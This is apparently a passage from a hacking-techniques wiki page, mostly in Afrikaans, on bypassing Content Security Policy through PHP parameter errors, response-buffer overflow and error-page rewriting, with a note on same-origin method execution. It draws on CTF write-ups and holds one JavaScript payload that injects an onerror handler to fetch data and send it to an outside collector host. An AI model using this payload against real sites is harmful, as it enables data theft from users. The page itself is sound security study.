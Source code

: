 **Hacking Insights**\
Betrek met inhoud wat die opwinding en uitdagings van hacking ondersoek

**Real-Time Hack News**\
Bly op hoogte van die vinnig bewegende hacking wêreld deur middel van regstreekse nuus en insigte

**Latest Announcements**\
Bly ingelig oor die nuutste bug bounties wat bekendgestel word en belangrike platformopdaterings

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Onveilige Tegnologieë om CSP te Bypass

### PHP Foute wanneer te veel params

Volgens die [**laaste tegniek kommentaar in hierdie video**](https://www.youtube.com/watch?v=Sm4G6cAHjWM), om te veel parameters te stuur (1001 GET parameters alhoewel jy dit ook met POST params en meer as 20 lêers kan doen). Enige gedefinieerde **`header()`** in die PHP webkode **sal nie gestuur word** weens die fout wat dit sal veroorsaak nie.

### PHP antwoordbuffer oorlaai

PHP is bekend vir **buffering die antwoord tot 4096** bytes per standaard. Daarom, as PHP 'n waarskuwing toon, deur **genoeg data binne waarskuwings** te verskaf, sal die **antwoord** **gestuur** word **voor** die **CSP header**, wat veroorsaak dat die header geïgnoreer word.\
Dan bestaan die tegniek basies uit **die antwoordbuffer met waarskuwings te vul** sodat die CSP header nie gestuur word nie.

Idea from [**this writeup**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points).

### Herschryf Foutbladsy

Van [**this writeup**](https://blog.ssrf.kr/69) blyk dit dat dit moontlik was om 'n CSP-beskerming te omseil deur 'n foutbladsy (potensieel sonder CSP) te laai en sy inhoud te herskryf.
```javascript
a = window.open("/" + "x".repeat(4100))
setTimeout(function () {
a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`
}, 1000)
```
### SOME + 'self' + wordpress

SOME is 'n tegniek wat 'n XSS (of hoogs beperkte XSS) **in 'n eindpunt van 'n bladsy** misbruik om **ander eindpunte van dieselfde oorsprong te misbruik.** Dit word gedoen deur die kwesbare eindpunt vanaf 'n aanvallerbladsy te laai en dan die aanvallerbladsy te verfris na die werklike eindpunt in dieselfde oorsprong wat jy wil misbruik. Op hierdie manier kan die **kwesbare eindpunt** die **`opener`** objek in die **payload** gebruik om **toegang te verkry tot die DOM** van die **werklike eindpunt om te misbruik**. Vir meer inligting, kyk:

